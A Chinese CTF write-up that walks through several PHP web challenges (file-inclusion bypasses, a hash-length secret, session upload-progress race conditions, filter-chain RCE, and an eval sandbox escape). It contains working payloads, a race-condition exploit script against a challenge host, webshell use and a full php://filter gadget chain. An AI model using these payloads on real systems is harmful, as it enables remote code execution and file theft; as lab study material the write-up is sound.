# 36D练手赛

## 不知所措.jpg

需要GET传入file参数且file参数必须有test

传入test.显示没有flag，不过可以确定是存在文件包含的，但是这里有test的阻碍的话该怎么正确读取文件呢？



官方手册中认证的参数只有这几个，所以传入的其他参数是不会被解析的

```
?file=php://filter/read=convert.base64-encode/test这里随便写/resource=flag.
```

我本来是试着去读flag的，但是没读出来

试试index看看能不能读到源代码，然后也是成功读到了index.php文件的源码，我们拿去解码一下

```php
<?php
error_reporting(0);
$file=$_GET['file'];
$file=$file.'php';
echo $file."<br />";
if(preg_match('/test/is',$file)){
	include ($file);
}else{
	echo '$file must has test';
}
?>
```

这里可以看到是include包含，而且是有限制的文件包含，但是不影响我们用data伪协议

构造payload:

```
?file=data://text/plain,<?php phpinfo();//test ?>
```

成功执行，然后直接打就行

## easyshell

源码中看到一个注释掉的

```
<!--md5($secret.$name)===$pass -->
```

抓包看到一个Hash值,估计就是md5的结果，也就是pass的值



然后我们试着传入name和pass试一下

```
?name=1&pass=f4d232dfb2c0d3f50350346fc68a1753
```

传入发现response包中的cookie变了，我们跟进一下

看到了一个flflflflag.php，我们访问看看

一开始以为是404，抓包发现是假的，看到了include包含file参数，应该是任意文件包含漏洞，我们用伪协议去读取一下文件

```
?file=php://filter/read=convert.base64-encode/resource=index.php
```

想试着读一下flag发现不得行，先读index吧

```php
//index.php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);#
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>

```

```php
//config.php
<?php
$secret='%^$&$#fffd';
?>
```

```php
//flflflflag.php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>yesec want Girl friend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```

这道题的话入口应该是在include函数，但是我试着读flag的时候没读出来，说明应该不是这个名字，用日志注入也没打通，试一下url编码绕过input去rce但是也不行

那就打session文件包含

利用PHP_SESSION_UPLOAD_PROGRESS加条件竞争进行文件包含，直接上脚本

```python
import io
import requests
import threading

sessid="wanth3f1ag"
url="http://896e6d4e-6df6-4228-8246-19e13efa2866.challenge.ctf.show/flflflflag.php"

def write(session):
    while event.is_set():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                # "PHP_SESSION_UPLOAD_PROGRESS": "<?php system('whoami');?>"
            },
            files={"file":('1.txt',f)}
        )

def read(session):
    while event.is_set():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if '1.txt' in r.text:
            print(r.text)
            event.clear()
            break


if __name__=='__main__':
    event=threading.Event()
    event.set()

    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write,args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read,args=(session,)).start()
```

然后访问我们的木马shell.php并用蚁剑连接



但是是空的，开终端发现显示127



应该是需要绕过disablefunction，直接用蚁剑里面的插件，但是后面发现cat不了那个文件



然后我就利用shell.php去进行rce了



直接对shell.php中的参数1传入phpinfo()，然后在里面找flag就可以了

另外还可以用filter链打RCE，可以参考我另一篇文章https://wanth3f1ag.top/2025/05/19/filters-chain%E5%AE%9E%E7%8E%B0RCE/

```bash
root@VM-16-12-ubuntu:/opt/php_filter_chain_RCE/php_filter_chain_generator# python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
[+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

将生成的内容传入file参数



成功执行，后面就可以直接读flag了

到此练手赛就结束了，开始进入36D的内容

# 36D杯

## 给你shell



准备了一个shell给我们，但是扫目录没发现什么内容

源码注释

```
<!--flag is in /flag.txt-->
```

然后访问这个文件发现是空页面，我们抓个包看看



有一个secret的cookie值，拿去解密后是y1ng，但是用蚁剑连接不成功，看来是方向搞错了

后来在页面源码中找到了源代码

```php
<?php
//It's no need to use scanner. Of course if you want, but u will find nothing.
error_reporting(0);
include "config.php";

if (isset($_GET['view_source'])) {
    show_source(__FILE__);
    die;
}

function checkCookie($s) {
    $arr = explode(':', $s);
    if ($arr[0] === '{"secret"' && preg_match('/^[\"0-9A-Z]*}$/', $arr[1]) && count($arr) === 2 ) {
        return true;
    } else {
        if ( !theFirstTimeSetCookie() ) setcookie('secret', '', time()-1);
        return false;
    }
}

function haveFun($_f_g) {
    $_g_r = 32;
    $_m_u = md5($_f_g);
    $_h_p = strtoupper($_m_u);
    for ($i = 0; $i < $_g_r; $i++) {
        $_i = substr($_h_p, $i, 1);
        $_i = ord($_i);
        print_r($_i & 0xC0);
    }
    die;
}

isset($_COOKIE['secret']) ? $json = $_COOKIE['secret'] : setcookie('secret', '{"secret":"' . strtoupper(md5('y1ng')) . '"}', time()+7200 );
checkCookie($json) ? $obj = @json_decode($json, true) : die('no');

if ($obj && isset($_GET['give_me_shell'])) { 
    ($obj['secret'] != $flag_md5 ) ? haveFun($flag) : echo "here is your webshell: $shell_path";
}

die;
```

It's no need to use scanner. Of course if you want, but u will find nothing.好吧这句话已经在嘲笑我了，怪我没好好审页面源代码吧，那我们来分析一下代码和相关的函数

### explode()函数

`explode()` 函数是 PHP 中用于将字符串分割成数组的一个内置函数

基础语法

```
array explode(string $delimiter, string $string[, int $limit = PHP_INT_MAX])
```

参数说明

1. **$delimiter**:
   - 字符串类型，指定用于分隔字符串的分隔符。当找到这个分隔符时，`explode()` 会在该位置将字符串切割开。
2. **$string**:
   - 字符串类型，要被切割的源字符串。
3. **$limit** (可选):
   - 整数类型，限制返回的数组元素的数量。如果设置为正数，返回的数组将包含最多 `$limit` 个元素；如果设置为负数，返回的数组将包含所有元素，但去掉最后 `$limit` 个元素。

### strtoupper()函数

`strtoupper()` 函数是 PHP 中用于将字符串中的所有字母转换为大写字母的一个内置函数。

基础语法

```
string strtoupper(string $string)
```

参数说明

- $string
  - 字符串类型，输入的要转换为大写的字符串。

返回值

- 函数返回转换后的字符串，其中的所有字母都被转换为大写。如果输入字符串中没有字母，或者字符串为空，则返回原字符串。

### 位与运算

位与运算 (`&`) 是对两个二进制数逐位比较，如果两个对应的位都是 1，则结果为 1；否则结果为 0。

这里的话随便传入一个secret，就可用拿到flag位运算后的结果，记得这里还需要传入give_me_shell参数，不然就满足不了外层判断句的条件



得到flag位与运算后的结果是0006464640064064646464006406464064640064006400000000000

首先我们要知道，在经过MD5函数后转大写，只有数字和大写字母

然后我们看看位运算中的结果是什么样的

```php
<?php
for($a = 1; $a <= 127; $a++) {
    $md = $a & 0xC0;
    echo $a."的位运算结果是".$md."\n";
}
```

可以发现，在小于63的时候，运算结果都是0，在大于63小于127的时候运算结果都是64，从flag运算结果来看，前三位都是纯数字，那我们进行爆破

注意:这里的话要把secret设置为纯数字，不然的话就会匹配类型



这里的话我就是没去掉双引号导致并没有绕过这个弱比较，我设置纯数字之后才出来了结果



可以看到文件名，我们访问一下

```php
<?php
error_reporting(0);
session_start();


//there are some secret waf that you will never know, fuzz me if you can
require "hidden_filter.php";


if (!$_SESSION['login'])
    die('<script>location.href=\'./index.php\'</script>');


if (!isset($_GET['code'])) {
    show_source(__FILE__);
    exit();
} else {
    $code = $_GET['code'];
    if (!preg_match($secret_waf, $code)) {
        //清空session 从头再来
        eval("\$_SESSION[" . $code . "]=false;"); //you know, here is your webshell, an eval() without any disabled_function. However, eval() for $_SESSION only XDDD you noob hacker
    } else die('hacker');
}
```

还是一个代码审计，我们简单分析一下，这里需要我们传入一个GET 的code参数和在会话中设置一个login，然后对code进行正则匹配，判断为真则将清空session中code的值，不然的话会输出hacker

这里因为没有给出waf的代码，所以我们需要进行fuzz，而且题目也提示了fuzz，那我们用bp进行fuzz测试一下

通过测试发现过滤了单双引号，括号，反引号，字符 f 以及一些常用函数，加上题目提示我们 flag在 /flag.txt中，那个就应该是要读取文件内容了

payload:

```
?code=]=1?><?=require~%d0%99%93%9e%98%d1%8b%87%8b?>
```



payload：

```
?code=]=1?><?=require~%d0%99%93%9e%98?>
```

我们解析一下这两个payload，先说第一个，先说第一个

```
?code=]=1?><?=require~%d0%99%93%9e%98%d1%8b%87%8b?>
```

其中`？>`符号可以被当作`;`解析，而我们这里因为很多符号都被禁用了，我们的思路就是利用`eval("\$_SESSION[" . $code . "]=false;");`，而利用方法就是去闭合这里的`eval("$_SESSION["`去想办法读取flag，因为;在黑名单里但是<>?不在黑名单里，所以我们尝试构造?code=]?><?去进行bypass，然后我又发现我们的()都在黑名单里，所以能读取文件的函数也很少了，但是我发现题目中有`require "hidden_filter.php";`的代码，我就想到了用require去进行读取文件

## RemoteImageDownloader

